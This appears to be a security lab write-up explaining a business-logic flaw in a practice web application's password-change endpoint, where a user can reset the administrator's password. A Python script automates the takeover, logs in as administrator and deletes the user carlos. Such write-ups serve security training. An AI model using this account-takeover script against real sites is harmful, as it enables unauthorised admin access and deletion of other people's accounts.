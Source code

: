 #### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, explore the application by logging into the application using the given credential `wiener:peter`. A random test revealed that the username can be updated to another user from the current user. 

![Exploration](/images/bizlogic7/02-explore-weak-isolation-on-dual-use-endpoint.png "Exploration") 

#### Exploitation
Send that to Burp's Repeater and repeat updating the user to administrator and bypassing the current password box activated the 'Admin Panel' after logging in with the updated credential. Click on it then delete the Carlos user. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Proxies
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

def exploit(session, base_url):
  login_url = urljoin(base_url, '/login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)
  if login_response.status_code == 200:
    account_url = base_url + '/my-account'
    change_password_url = base_url + '/my-account/change-password'
    csrf_token = get_csrf_token(session, account_url)
    data = {
      'username': 'administrator',
      'new-password-1': '4l@w3)',
      'new-password-2': '4l@w3)',
      'csrf': csrf_token
    }
    response = session.post(change_password_url, data=data, verify=False)
    if response.status_code == 200:
      # Call delete_user function
      delete_user(session, base_url, 'carlos')
      print("Carlos User Deleted!")
    else:
      print("Failed to delete Carlos User")
  else:
    print("Failed to log in.")

def delete_user(session, base_url, username):
  login_url = urljoin(base_url, '/login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'administrator', 'password': '4l@w3)', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)
  if login_response.status_code == 200:
    admin_delete_url = base_url + f'/admin/delete?username={username}'
    response = session.get(admin_delete_url, verify=False)
    return response

```